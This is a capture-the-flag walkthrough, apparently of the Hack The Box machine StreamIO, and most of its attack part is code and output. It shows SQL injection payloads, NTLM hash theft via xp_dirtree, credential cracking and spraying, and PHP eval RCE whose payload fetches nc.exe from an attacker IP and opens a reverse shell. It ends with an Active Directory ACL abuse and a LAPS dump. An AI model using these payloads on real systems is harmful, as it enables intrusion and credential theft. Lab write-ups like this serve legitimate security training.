







| Port | Services | Informations            |
| ---- | -------- | ----------------------- |
| 53   | DNS      |                         |
| 80   | http     | IIS 10.0                |
| 88   | kerberos |                         |
| 443  | https    | IIS 10.0 - Main website |
| 5985 | winrm    |                         |
# Shell as Yoshihide
## SQL injection on search.php
```sql
select * from movies where name like '%USER_ENTRY%';
-- Try SQLi --
select * from movies where name like '%man';--%'; # trying to display name ends by "man" work
-- Lets try to enum the numbers of columns --
select * from movies where name like '%abcd' UNION SELECT 1,2,3,4,5,6;--%';
-- Trying enumerate DB version --
q=ab'+UNION+SELECT+1,@@version,3,4,5,6%3b-- 
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
	Sep 24 2019 13:48:23 
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard 10.0
```
## SQL injection to Hash theft
```sql
-- Payload
abcd'; use master; exec xp_dirtree '\\10.10.14.38\share';-- -
-- We get a response back with NTLM hashes of DC$ machine
```
```ruby
DC$::streamIO:1122334455667788:FD681CF6C735C1B61B5112E8F1B4C1EA:010100000000000080036F70078ADC01C56084BCAE1C335E0000000002000800370058004C00320001001E00570049004E002D00380055005400470035004F0048005100410034004F0004003400570049004E002D00380055005400470035004F0048005100410034004F002E00370058004C0032002E004C004F00430041004C0003001400370058004C0032002E004C004F00430041004C0005001400370058004C0032002E004C004F00430041004C000700080080036F70078ADC01060004000200000008003000300000000000000000000000003000006809BEB3CDE75E3ED3AB511B9A2440FD9A42077609B813BCFF8E414FEE9722EF0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00330038000000000000000000
```
-> trying crack with hashcat but nothing here.
## Lets dump databases
1. Enumerate DBs
```sql
q=ab'+UNION+SELECT+1,name,3,4,5,6+from+master..sysdatabases%3b--
> Master
-- Enumerate current DB use for application
q=ab'+UNION+SELECT+1,(select+DB_NAME()),3,4,5,6%3b--
> STREAMIO
```

2. Enumerate tables
```bash
q=ab'+UNION+SELECT+1,name,id,4,5,6+from+streamio..sysobjects+where+xtype='U'%3b--
> Movie id: 885578193 and User id: 901578250 tables
-- try in Streamiobackup DB
q=ab'+UNION+SELECT+1,name,id,4,5,6+from+streamio_backup..sysobjects+where+xtype='U'%3b--
> Return NOTHING
```

3. Enumerate columns in user's table
```sql
-- Return table in streamio db using columns ID recover from previous request
q=ab'+UNION+SELECT+1,name,id,4,5,6+from+streamio..syscolumns+where+id+in+(885578193,901578250)%3b--
```


| Cols name | Cols ID   |
| --------- | --------- |
| is_staff  | 901578250 |
| username  | 901578250 |
| password  | 901578250 |
4. Get content of interesting columns
```sql
q=ab'+UNION+SELECT+1,concat(username,password,is_staff),3,4,5,6+from+users%3b-- 
```

copy output to file > sed to retrieve user:password
```xml
grep '<h5 class="p-2">' all_users.html | sed 's/.*<h5 class="p-2">\s*\(\S\+\)\s\+\(\S\+\).*/\1:\2/'
```
5. Crack with hashcat
```ruby
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```
6. Try BF against smb protocol
```bash
nxc smb 10.129.22.80 -u Onlyusers.txt -p Onlypass.txt --no-bruteforce --continue-on-success

[-] streamIO.htb\admin:paddpadd STATUS_LOGON_FAILURE
[-] streamIO.htb\Barry:$hadoW STATUS_LOGON_FAILURE
[-] streamIO.htb\Bruno:$monique$1991$ STATUS_LOGON_FAILURE
[-] streamIO.htb\Clara:%$clara STATUS_LOGON_FAILURE
[-] streamIO.htb\Juliette:$3xybitch STATUS_LOGON_FAILURE
[-] streamIO.htb\Lauren:##123a8j8w5123## STATUS_LOGON_FAILURE
[-] streamIO.htb\Lenord:physics69i STATUS_LOGON_FAILURE
[-] streamIO.htb\Michelle:!?Love?!123 STATUS_LOGON_FAILURE
[-] streamIO.htb\Sabrina:!!sabrina$ STATUS_LOGON_FAILURE
[-] streamIO.htb\Thane:highschoolmusical STATUS_LOGON_FAILURE
[-] streamIO.htb\Victoria:!5psycho8! STATUS_LOGON_FAILURE
[-] streamIO.htb\yoshihide:66boysandgirls.. STATUS_LOGON_FAILURE
```

# Shell as Yoshidi
recover master.php source code:
```makefile
GET /admin/index.php?debug=php://filter/convert.base64-encode/resource=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=t8quvi998hmeobkvcmnuq2rroc
<SNIP>
Te: trailers
```
-> Analyze source code search for eval parameter
```php
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```
-> if we have post parameter on Master we can abuse eval php function to execute so system command:
```request
POST /admin/index.php?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=t8quvi998hmeobkvcmnuq2rroc
<SNIP>
include=http://10.10.14.38/rce.php
```
-> rce.php execute dl nc.exe on my machine and call connection back to my machine:
```php
system("powershell -c wget 10.10.14.38/nc.exe -outfile \\programdata\\nc.exe");
system("\\programdata\\nc.exe -e powershell 10.10.14.38 443");
```

# Shell as nikk37
```powershell
# Search for interesting creds in *.php
dir -recurse *.php | select-string -pattern "database"
> streamio.htb\admin\index.php:9:$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" =>
'B1@hx31234567890');
> watch.streamio.htb\search.php:15:$connection = array("Database"=>"STREAMIO", "UID" => "db_user", "PWD" =>
'B1@hB1@hB1@h'):
```
-> Now connecting to streamio_backup DB
```powershell
where.exe sqlcmd
> C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
```
-> DB enumeration in single command because reverse shell not interactive
```bash
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
id          username                                           password
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332
          3 James                                              c660060492d9edcaa8332d89c99c9239
          4 Theodore                                           925e5408ecb67aea449373d668b7359e
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5

(8 rows affected)
crackstation => get_dem_girls2@yahoo.com
```

# Shell as JDgodd
Recover firefox cookie using tool https://github.com/lclevy/firepwd
```bash
🔐 root@exegol-main 💻 10.10.14.38 📁 Streamio # nxc smb 10.129.22.80 -u slackuser.txt -p slackpass.txt
SMB         10.129.22.80    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.129.22.80    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r
```
# JDgood as Administrator

Lets add our current user JDgodd to CORE STAFF group -> using powerview.ps1
```bash
# 1. login as nikk37
evil-winrm -i DC.streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
# 2. Create PScredential ovject to interact as JDgodd
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PScredential('Streamio.htb\JDgodd', $pass)
# 3. Add JDgodd to Core Staff group
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
net user jdgodd
> Global Group membership *CORE STAFF
# 4. Dump LAPS using nxc --laps --ntds
⚡ 15:33 🔐 root@exegol-main 💻 10.10.14.38 📁 Streamio # nxc smb 10.129.22.80 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB         10.129.22.80    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.129.22.80    445    DC               [-] DC\administrator:4$B217laue2x/w STATUS_LOGON_FAILURE
⚡ 15:34 🔐 root@exegol-main 💻 10.10.14.38 📁 Streamio # nxc smb 10.129.22.80 -u Administrator -p '4$B217laue2x/w'
SMB         10.129.22.80    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.129.22.80    445    DC               [+] streamIO.htb\Administrator:4$B217laue2x/w (admin)
```
-> Admin flag is on Martin's Desktop
```flag
82a7391a861970cccb6a734dfee53d9e
```